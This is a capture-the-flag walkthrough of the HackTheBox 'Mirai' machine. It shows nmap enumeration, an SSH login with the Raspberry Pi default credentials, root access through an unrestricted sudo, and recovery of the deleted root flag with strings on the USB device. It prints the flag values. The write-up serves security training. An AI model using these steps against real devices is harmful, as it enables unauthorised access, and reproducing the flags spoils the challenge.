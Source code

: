 ```yaml
---
tags:
  - hack
  - linux
---
```


# HackTheBox: [Mirai](https://app.hackthebox.com/machines/Mirai)

## Enumeration

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain      dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http        lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
388/tcp   filtered unidata-ldm
1728/tcp  open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
20850/tcp filtered unknown
25173/tcp filtered unknown
32400/tcp open     http        Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
37158/tcp filtered unknown
62763/tcp filtered unknown
62807/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

Looks like [Pi-hole](https://en.wikipedia.org/wiki/Pi-hole) on port 80, judging by the HTTP header:

```console
$ curl -Lsi http://$t
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Tue, 03 Oct 2023 22:42:24 GMT
Server: lighttpd/1.4.35
```

## Exploitation

I can infer that Pi-hole is running on a Raspberry Pi device, probably [Raspbian](https://www.raspbian.org/).

I try the default credentials of `pi:raspberry`:

```console
$ ssh pi@$t
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
ff8377[...]
```

## Privilege Escalation

`sudo` is wide open for the user `pi`:

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo -i
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```

The usual `root.txt` file drops a big hint:

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

And the USB filesystem contains another hint:

```console
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Running `strings` on the USB device file reveals the `root` flag:

```console
root@raspberrypi:/tmp# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
